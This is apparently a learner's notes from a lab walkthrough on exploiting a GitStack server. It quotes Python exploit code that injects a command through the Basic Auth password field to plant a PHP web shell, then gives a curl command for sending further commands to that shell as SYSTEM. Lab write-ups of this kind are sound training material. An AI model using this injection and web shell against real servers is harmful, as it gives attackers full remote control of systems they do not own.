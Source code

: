 
Git Server Exploitation: 
------------------------

## we have the exploit and we made changes with our sakes now we have run it and check it is it works in my case they work perfectly and they gave me command execution with NT AUTHORITY\SYSTEM, the highest ranking local account on a Windows target.

## from that we know that machine is windows machine 

### so we have command execution on the machine so we have to choices to gain a reverse shell 

1) We could change the command in the exploit and re-run the code
## change the command and re run the make another file so thats not so good 

2) We could use our knowledge of the script to leverage the same webshell to execute more commands for us, without performing the full exploit twice
## this looks betters so now we do this 

## from the code

##
print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\exploit-NoobHacker69.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/exploit-NoobHacker69.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')

## 

this part of the code we know the code make a post request with parameter 'a' by default so we make the post request send it to the server to execute our command with making another file 

## we achive this with the two method 
1) curl command 
2) burpsuit 

so we use curl command 

 Command syntax: curl -X POST http://IP/web/exploit-USERNAME.php -d "a=COMMAND"

## this method is easy and speedy so use of this is recommended
